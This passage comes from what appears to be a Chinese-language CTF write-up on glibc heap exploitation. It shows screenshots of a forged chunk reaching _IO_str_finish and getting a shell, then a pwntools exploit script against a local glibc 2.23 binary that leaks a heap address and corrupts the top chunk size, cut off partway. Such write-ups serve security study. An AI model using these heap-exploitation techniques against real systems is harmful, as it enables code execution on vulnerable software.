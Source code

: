 2. 调试如下：

   伪造的fake_chunk:

   <img src="https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408212018323.png" alt="image-20240821201805048" style="zoom:50%;" />

   成功调用到**_IO_str_finish函数**：

   ![image-20240821201837406](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408212018587.png)

   成功绕过检查，调用到winner函数：

   ![image-20240821202149017](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408212021363.png)

   成功get shell：

   ![image-20240821202224930](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408212022023.png)



## 最后拓展一下上一篇博客house of orange题目的做法:

文章：[House of Orange-CSDN博客](https://blog.csdn.net/yjh_fnu_ltn/article/details/141143144?spm=1001.2014.3001.5501)

1. EXP，分别使用上面两钟方法：

   ```py
   from pwn import *
   import numpy as np
   # from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       gdb.attach(p)
   
   # p = remote("node4.anna.nssctf.cn",28353)
   # libc = ELF('./libc.so.6')
   p = process("./pwn") 
   libc = ELF("/home/kali/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so")
   # elf = ELF("./pwn")
   
   
   def add(size,name):
       p.sendlineafter(b':',b'1')
       p.sendlineafter(b'it',str(size).encode())
       p.sendafter(b"?",name)
   
   def edit(content):
       p.sendlineafter(b':',b'2')
       p.sendlineafter(b"it",str(len(content)).encode())
       p.sendafter(b"name",content)
   
   def show():
       p.sendlineafter(b':',b'3')
   
   # 回收heap地址
   heap_addr = eval(p.recv(14).decode())-0x10
   success("heap_addr ==> " + hex(heap_addr))
   
   # 泄漏libc地址
   add(0x10,b"lzl")
   payload = p64(0)*3 + p64(0xfc1)
   edit(payload)
   add(0x1000,b"lzl")
   
   add(0x10,b"a"*8)
   ```